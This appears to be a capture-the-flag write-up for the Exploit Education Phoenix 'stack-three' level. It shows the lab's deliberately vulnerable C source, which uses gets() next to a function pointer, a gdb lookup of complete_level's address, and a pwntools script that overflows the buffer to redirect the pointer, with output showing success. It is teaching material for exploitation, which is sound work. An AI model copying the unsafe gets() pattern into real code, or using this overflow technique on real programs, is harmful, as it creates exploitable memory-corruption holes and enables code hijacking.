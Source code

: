 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack Three"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

The goal of this challenge if to overwrite the value of **fp**  which is a function pointer to point to **complete_level** function.

```
$ gdb -q /opt/phoenix/amd64/stack-three
Reading symbols from /opt/phoenix/amd64/stack-three...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40069d <complete_level>
```

Now that we know the address of **complete_level** function is **0x40069d**, we can now build our exploit.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x40069d)

print(buff)
```

 ```
$ python solve.py | /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
 ```

